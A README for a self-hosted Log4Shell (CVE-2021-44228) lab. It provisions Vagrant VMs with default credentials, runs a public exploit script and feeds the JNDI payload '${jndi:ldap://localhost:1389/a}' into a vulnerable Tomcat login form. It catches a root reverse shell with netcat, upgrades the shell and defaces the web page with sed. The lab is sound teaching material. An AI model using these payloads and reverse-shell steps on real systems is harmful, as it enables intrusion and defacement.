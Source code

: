# Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## Credentials

| Login   | Passwd  | VM      |
| :------ | :------ | :------ |
| vagrant | vagrant | all     |
| debuser | log123  | deblab  |
| kauser  | log123  | kalilab |

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up deblab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision deblab`

**Note**:

You can connect with ssh: `vagrant ssh deblab`

## Lab environment

Open the deblab GUI and login with debuser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

#### Terminal 1: netcat listener

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
```

#### Terminal 2: Launch exploit

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/; ls
Dockerfile                 LICENSE    requirements.txt
jdk1.8.0_20                poc.py     target
jdk-8u20-linux-x64.tar.gz  README.md  vulnerable-application

debuser@deblab:/log4jlab$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for debuser: 

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

#### Terminal 3: create vulnerable application

```bash
debuser@deblab:/log4jlab$ cd /log4jlab/

debuser@deblab:/log4jlab$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in f07313c7813c
Removing intermediate container f07313c7813c
 ---> 0aa3d79eeb7c
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> 3236fc49ad3d
Step 4/5 : EXPOSE 8080
 ---> Running in b73e25384301
Removing intermediate container b73e25384301
 ---> 709b6daec9b1
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in a390bc35dbb4
Removing intermediate container a390bc35dbb4
 ---> bb22ea172197
Successfully built bb22ea172197
Successfully tagged log4j-shell-poc:latest

debuser@deblab:/log4jlab$ docker run --network host log4j-shell-poc
25-May-2022 17:29:07.563 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-May-2022 17:29:07.564 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-13-amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-May-2022 17:29:07.565 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-May-2022 17:29:07.566 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-May-2022 17:29:07.567 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-May-2022 17:29:07.569 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-May-2022 17:29:07.616 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:07.621 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:07.622 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 345 ms
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-May-2022 17:29:07.637 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-May-2022 17:29:07.652 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-May-2022 17:29:07.751 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-May-2022 17:29:08.005 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-May-2022 17:29:08.025 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 373 ms
25-May-2022 17:29:08.030 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-May-2022 17:29:08.055 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-May-2022 17:29:08.056 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 433 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/deblabimg/1.poc-log4shell-dl.png)

The hack succeeded when the netcat listener gives:

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
```

### Hack along

You can check your access, switch to interactive shell and do your log4shell afterhackings ..

```bash
debuser@deblab:/log4jlab$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 33230
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@deblab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
debuser@deblab:/log4jlab$ stty raw -echo; fg; reset
nc -lvnp 9001

root@deblab:/usr/local/tomcat# sed -i 's/Hello Again!/<<< LOG4SHELL PoC >>>/g' webapps/ROOT/index.jsp

root@deblab:/usr/local/tomcat# sed -i 's/Login/HACKED/g' webapps/ROOT/index.jsp

# Refresh browser ;-)
```

![poc log4shell](img/deblabimg/2.poc-log4shell-dl.png)

### Reference

- Automated environment using vagrant with a [ansible skeleton](https://github.com/bertvv/ansible-skeleton) built by bertvv
- Log4j CVE-2021-44228 poc [githubRepo](https://github.com/kozmer/log4j-shell-poc) built by kozer
- Log4j CVE-2021-44228 testing tools [URL](https://log4shell.tools/) and [gitRepo](https://github.com/alexbakker/log4shell-tools) built by Alexander Bakker
